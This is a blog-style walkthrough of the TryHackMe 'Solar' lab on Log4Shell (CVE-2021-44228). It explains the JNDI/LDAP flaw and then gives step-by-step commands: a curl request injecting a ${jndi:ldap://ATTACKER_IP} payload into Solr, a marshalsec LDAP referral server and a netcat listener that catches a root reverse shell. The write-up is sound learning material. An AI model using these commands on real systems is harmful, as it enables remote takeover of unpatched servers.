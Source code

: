 

<div>

## What's Going On?

A new exploit has just been discovered that has been causing an uproar in the
cyber security community (as well as most companies). CVE-2021-44228, or **Log4Shell**,
is an exploit that takes advantage of a vulnerability in the Log4j library by
allowing the ability of remote code execution from unauthorized users.


## Overview of Log4j

Let's back up a bit and understand the library with the catastrophic vulnerability: **Log4j**.
The Log4j library is a logging tool for Java that utilizes Java Naming and Director Interface (JDNI) and
Lightweight Directory Access Protocol (LDAP) protocols. JNDI is the protocol that retrieves data
from a remote server and LDAP is the protocol used for communication to a server such as a database.

By using a JNDI lookup to the LDAP server, it was possible to return an object containing code that can be executed
on the victim's server. That means something like a reverse shell can be performed to gain complete control over the
server. That's it... a simple injection attack that was powerful enough to cause chaos and rated the one of the most dangerous
vulnerabilities ever discovered.

## TryHackMe Demo

To get an idea of how easy this exploit is to perform, we can look at a lab that demonstrates the
attack. I follow along <a href="https://tryhackme.com/room/solar"> John Hammond's TryHackMe Lab </a> and encourage everyone to try it out themselves,
but I'll still go through it if you're feeling lazy.

### Reconnaissance

After reading the introduction, we go into reconnaissance which is a fancy word for gathering information.
To begin, we must understand what ports are open on this machine by using **nmap**. We are looking for a service running
on port 8983 which can be found using the following command:

```
$ nmap -sV -p8983 [MACHINE_IP]
```

### Discovery

This section wants us to explore the url and log files that have been given to us, so let's take a
look. When clicking on the link, we open a very minimal web interface that clearly shows log4j is used.
The first question asks for the argument that -Dsolr.log.dir is set to which is seen on the front
page as **/var/solr/logs**.

The next three questions involve us looking at the task files which are logs. Download the given files
and we quickly see one file has a significantly higher number of INFO entries than the
others: **solr.log**. Among these requests, we see a path to **/admin/cores** and **params**={} which can
be an entrypoint where a user could control.

### Proof of Concept

There's a great explanation in this section of the syntax and where the vulnerability can be exploited.
By performing a JNDI lookup with external resources (i.e. untrusted data), the LDAP server retrieves
the lookup and allows the attacker to execute remote code.

Afterwards, the tasks want us to test for vulnerabilities in the system. Use either of
the following commands to view our own attacking machine IP address.
```
$ ip addr show
```
```
$ ifconfig
```
For those unfamiliar with interface configuration (ifconfig), we just need to check
our VPN interface which is labeled tun0. The specific address we need is inet which
will be needed to make our request later (ATTACKER_IP).

Now prepare our netcat listener on port 9999 with the following command:
```
$ nc -lnvp 9999
```
In a separate terminal, we can make a request with curl with the following command (replace
the necessary parts being the machine IP and attacker IP):
```
$ curl 'http://(MACHINE_IP):8983/solr/admin/cores?foo=$\{jndi:ldap://(ATTACKER_IP):9999\}'
```
Netcat should catch the connection and produce some weird symbols. We have verified a connection and
can move onto the next section.

### Exploitation

The part we've all been waiting for... the exploit itself. This section begins by explaining
how the JNDI and LDAP protocols work together to retrieve a lookup resource. An HTTP server will
host our malicious file where the LDAP server will retrieve and execute (which can easily be set up using
python3). This part can get a little messy, so I've organized steps into what we need to do.

1. We will need Java 8 installed (specifically 1.8.0_181) which is relatively straightforward in the
description. Verify with `java -version`.
2. `git clone https://github.com/mbechler/marshalsec`
3. `sudo apt install maven`
4. ~/marshalsec $ `mvn clean package -DskipTests`
5. Copy and paste the Java exploit code and name it Exploit.java. Compile with `javac Exploit.java`

We have finished the prerequisites and can begin the exploit. I used 4 terminals for
the HTTP server, our netcat listener, LDAP server startup (marshalsec), and curl command to trigger the
exploit. Here are the steps I took:

1. Start LDAP server: ~/marshalsec
$ `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(ATTACKER_IP):8000/#Exploit"`
2. Start the HTTP server with `python3 -m http.server` and make sure we're in the same directory with `Exploit.*`
3. Prepare a netcat listener to catch the reverse shell with `nc -lnvp 9999`
4. Finally, execute `curl 'http://10.10.183.116:8983/solr/admin/cores?foo=$\{jndi:ldap://(ATTACKER_IP):1389/Exploit\}'`

Type "whoami" in the netcat listener and we see that we have root access to the machine now.
All we did was trick the LDAP server to request a JNDI lookup to retrieve our malicious code which made me understand
how dangerously easy this exploit can be executed. 

## Conclusion

**Log4Shell** caused so much havoc not only due to its abundant presence across many companies,
but how easily an adversary can utilize such an attack. A list of some of the
more popular companies can be found <a href="https://github.com/YfryTchsGD/Log4jAttackSurface">here</a>.

The vulnerability was found in Minecraft that demonstrates the attack very well, so be sure to check out those videos.
There was also an interesting article discussing how workers were punished for not reporting the vulnerability to their
government first that you should check out. These links can be found down below in the references.

## References

* <a href="https://tryhackme.com/room/solar"> John Hammond's TryHackMe Lab </a>
* <a href="https://www.youtube.com/watch?v=aJteDOavUFk"> Minecraft Log4Shell Exploit </a>
* <a href="https://www.youtube.com/watch?v=7qoPDq41xhQ"> John Hammond's Minecraft Video </a>
* <a href="https://www.scmp.com/tech/big-tech/article/3160670/apache-Log4j-bug-chinas-industry-ministry-pulls-support-alibaba-cloud"> Apache Log4j bug: China’s industry ministry pulls support from Alibaba Cloud for not reporting flaw to government first  </a>

</div>